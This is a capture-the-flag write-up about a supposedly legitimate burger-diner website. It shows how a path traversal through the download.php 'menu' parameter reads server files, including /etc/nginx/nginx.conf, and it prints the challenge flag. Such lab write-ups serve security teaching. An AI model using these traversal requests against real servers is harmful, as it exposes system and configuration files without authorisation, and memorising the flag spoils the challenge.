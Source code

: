 # Un chasseur sachant chasser... 1/2

![alt text](./logo.png)

> Des analystes SOC du Ministère des Armées ont remarqué des flux suspects provenant de machines internes vers un site vitrine d'une entreprise. Pourtant ce site semble tout à fait légitime.
>
> Vous avez été mandaté par la Direction Générale de l'Armement pour mener l'enquête. Trouvez un moyen de reprendre partiellement le contrôle > du site web afin de trouver comment ce serveur joue un rôle dans l'infrastructure de l'acteur malveillant.
>
> Aucun fuzzing n'est nécessaire.
>
> Le flag se trouve sur le serveur à l'endroit permettant d'en savoir plus sur l'infrastructure de l'attaquant.

## Analysis

When you arrive at the site, you see a website of a burger diner. Nothing to report for the moment.

The first thing to do is to look at the site's functionalities, interactive elements of the pages. We find a page with a link to download the restaurant's menu. The request made is :

```
https://.../download.php?menu=menu_updated_09_11_2022.jpg
```

The second thing to do is to look at the service used to host the site. We can see in the request headers that the service used is **nginx/1.22.0**


## Resolution

we will test the **path traversal** technique. To do this we change the **?menu** parameter in the url with the download.php page.


```
https://.../download.php?menu=download.php
```

And then, BINGO! The download.php page is downloaded to our machine.

In the title, we are told "The flag is located on the server in the place where we can learn more about the attacker's infrastructure". So we go and get the nginx configuration file: /etc/nginx/nginx.conf.

```
https://.../download.php?menu=/etc/nginx/nginx.conf
```

This results in the flag : 
```DHACK{L3s_D0ux_Burg3r5_se_s0nt_f4it_pwn_:(}```